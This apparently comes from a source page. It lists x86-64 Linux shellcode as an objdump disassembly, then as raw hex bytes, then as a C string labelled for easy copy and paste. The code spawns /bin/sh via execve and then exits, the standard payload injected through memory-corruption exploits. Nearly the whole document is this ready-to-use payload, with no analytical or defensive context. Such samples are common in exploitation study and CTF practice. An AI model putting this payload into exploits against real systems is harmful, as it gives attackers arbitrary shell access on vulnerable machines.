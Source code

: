 # objdump of the text section

shellcode:     file format elf64-x86-64  


Disassembly of section .text:  
```
0000000000401000 <_start>:  
  401000:	6a 3b                	push   $0x3b  
  401002:	58                   	pop    %rax  
  401003:	48 31 d2             	xor    %rdx,%rdx  
  401006:	48 bb 2f 2f 62 69 6e 	movabs $0x68732f6e69622f2f,%rbx  
  40100d:	2f 73 68   
  401010:	48 c1 eb 08          	shr    $0x8,%rbx  
  401014:	53                   	push   %rbx  
  401015:	54                   	push   %rsp  
  401016:	5f                   	pop    %rdi  
  401017:	52                   	push   %rdx  
  401018:	57                   	push   %rdi  
  401019:	54                   	push   %rsp  
  40101a:	5e                   	pop    %rsi  
  40101b:	0f 05                	syscall   
  40101d:	6a 3c                	push   $0x3c  
  40101f:	58                   	pop    %rax  
  401020:	48 31 ff             	xor    %rdi,%rdi  
  401023:	0f 05                	syscall   
```
# ShellCode in hexa

6a 3b 58 48 31 d2 48 bb
2f 2f 62 69 6e 2f 73 68
48 c1 eb 08 53 54 5f 52
57 54 5e 0f 05 6a 3c 58
48 31 ff 0f 05 

# Easy copy/paste to use in C
```
"\x6A\x3B\x58\x48\x31\xD2\x48"
"\xBB\x2F\x2F\x62\x69\x6E\x2F"
"\x73\x68\x48\xC1\xEB\x08\x53"
"\x54\x5F\x52\x57\x54\x5E\x0F"
"\x05\x6A\x3C\x58\x48\x31\xFF\x0F\x05"
```
